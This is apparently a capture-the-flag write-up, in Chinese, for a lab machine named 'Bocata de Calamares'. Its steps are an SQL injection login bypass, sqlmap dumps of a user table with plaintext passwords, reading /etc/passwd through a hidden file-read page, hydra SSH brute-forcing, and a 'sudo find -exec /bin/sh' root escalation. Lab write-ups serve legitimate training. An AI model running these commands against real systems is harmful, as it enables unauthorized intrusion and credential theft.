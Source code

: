 # Bocata de Calamares

2025.02.25 https://thehackerslabs.com/bocata-de-calamares/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 首页，底部发现邮箱 indurandor@fkn.com 。发现 http://192.168.5.40/sqli.php 的一个页面，讲的是 sql 注入，可能暗示这个靶机存在 sql 注入。

目录扫描发现 /login.php 和 /admin.php 页面，首先看登陆页面，尝试 sql 注入，就按照 http://192.168.5.40/sqli.php 底部提示的注入方式进行输入，登陆成功：

```
Usuario: admin
Contraseña: ' OR '1'='1
```

使用 sqlmap 跑 form 中的密码字段，得出数据库信息：

```
sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch --dbs

[*] information_schema
[*] performance_schema
[*] php

sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch -D php --tables

sqlmap -u http://192.168.5.40/login.php --data='alias=admin&password=1*' --batch -D php -T usuarios --dump

+----+------------+---------------------+---------+--------------+
| id | alias      | email               | nombre  | contraseña   |
+----+------------+---------------------+---------+--------------+
| 1  | adminPrinc | admin@localhost.com | admin   | 123456       |
| 2  | Pep100     | pepe@email.com      | pepe    | qwertyuiop   |
| 3  | Jaime_P    | jaime@email.com     | jaime   | jaime        |
| 4  | Richard    | Ricardobc@gmail.com | Ricardo | qwertyu      |
+----+------------+---------------------+---------+--------------+
```

使用得到的用户名和密码爆破 ssh，但是都不对。

在看管理员页面中有一个代办事项页面 http://192.168.5.40/todo-list.php 里面有一项：

```
我创建了一个新页面，以便能够读取内部服务器文件，每天我都是更好的程序员。我也已经编码了基于名称的64，因此没人能找到它（Lee_archivos）。
```

对后面的单词进行 base64，要带换行符，否则 base64 后是 bGVlX2FyY2hpdm9z 爆 404：

```
echo lee_archivos|base64
bGVlX2FyY2hpdm9zCg==
```

访问文件：http://192.168.5.40/bGVlX2FyY2hpdm9zCg==.php 弹出读取文件的页面，读取 /etc/passwd 发现：

```
root:x:0:0:root:/root:/bin/bash
tyuiop:x:1000:1000:tyuiop:/home/tyuiop:/bin/bash
superadministrator:x:1001:1001:,,,:/home/superadministrator:/bin/bash
```

同时在源代码处得到提示：

```
<!-- Tengo que limitar los archivos que se pueden ver, al menos hasta que los usuarios tengan unas contraseñas más robustas -->
<!-- Si alguien leyera el archivo donde se encuentran los usuarios y usara la herramienta hydra para atacar nuestro servicio ssh... Bueno, mañana me encargare de ello -->
```

提示 hydra 进行 ssh 爆破，使用 rockyou 对这 2 个用户名进行爆破，得到了 superadministrator 的登陆密码 princesa 进行登陆。

先拿到 flag:

```
superadministrator@thehackerslabs-bocatacalamares:~$ cat flag.txt
c3VkbyAtbAo=
```

解码后是 sudo -l , 执行后发现 (ALL) NOPASSWD: /usr/bin/find 可以直接拿到 root 权限：

```
sudo find . -exec /bin/sh \; -quit

# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
S0Y_UN_h4K3R
```
